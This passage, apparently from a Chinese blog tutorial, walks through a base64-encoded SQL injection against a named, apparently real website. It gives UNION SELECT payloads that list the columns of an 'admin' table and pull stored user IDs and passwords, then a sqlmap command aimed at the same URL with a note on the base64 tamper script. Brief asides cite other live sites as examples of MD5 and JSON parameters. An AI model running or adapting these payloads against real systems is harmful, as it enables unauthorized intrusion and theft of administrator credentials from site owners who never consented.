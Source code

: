 ```plain
对admin下的表进行查询 
payload：4 and 1=2 union select 1,group_concat(column_name),3 from information_schema.columns where table_name='admin' and table_schema='knotwebdb'
编码后：
http://knotsolutions.com/case_study_view.php?id=NCBhbmQgMT0yIHVuaW9uIHNlbGVjdCAxLGdyb3VwX2NvbmNhdChjb2x1bW5fbmFtZSksMyBmcm9tIGluZm9ybWF0aW9uX3NjaGVtYS5jb2x1bW5zIHdoZXJlIHRhYmxlX25hbWU9J2FkbWluJyBhbmQgdGFibGVfc2NoZW1hPSdrbm90d2ViZGIn
记录列名entry_id,user_id,password,type,status
```

![1645158594420-6d95ed6b-7f49-46bf-8a00-01b7bc4f6db6.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132703461-7838076.png)

```plain
查询admin下的uer_id和password的值：
4 and 1=2 union select 1,user_id,password from admin
编码后：
http://knotsolutions.com/case_study_view.php?id=NCBhbmQgMT0yIHVuaW9uIHNlbGVjdCAxLHVzZXJfaWQscGFzc3dvcmQgZnJvbSBhZG1pbg==
得到数据，完成注入。
```

![1645158966400-fc829704-3ea9-488e-8b7d-d2b65a80d4ea.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132702762-89175488.png)

------

- 真实WEB-JSON数据格式&MD5加密数据

```plain
MD5加密数据：
https://www.wanhuabao.com/goodslist/2e2d7fbdea1afc51.html
2e2d7fbdea1afc51是md5加密类型。
```

![1645159792022-5cddf6b4-d008-474b-be2d-4d7c62595cfb.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132702902-9365137.png)



```plain
json 格式类型：
https://www.aliyun.com/solution/industry/digitalfactory?spm=5176.19720258.J_8058803260.74.e9392c4aXqzSjs
```

![1645160112575-f217f26c-f649-483f-88be-a655679e6251.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132702520-237229652.png)

------

- 工具脚本-SQLMAP-脚本Tamper使用指南

```plain
如果之前的SQL注入，sqlmap去跑，如果没有用到base64编码的脚本，那么他就不会判断出注入点。
执行：python310 sqlmap.py -u "http://knotsolutions.com/case_study_view.php?id="
```

![1645160779571-f8f6e869-a303-4672-9057-df6e7fe13266.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132702770-127180557.png)
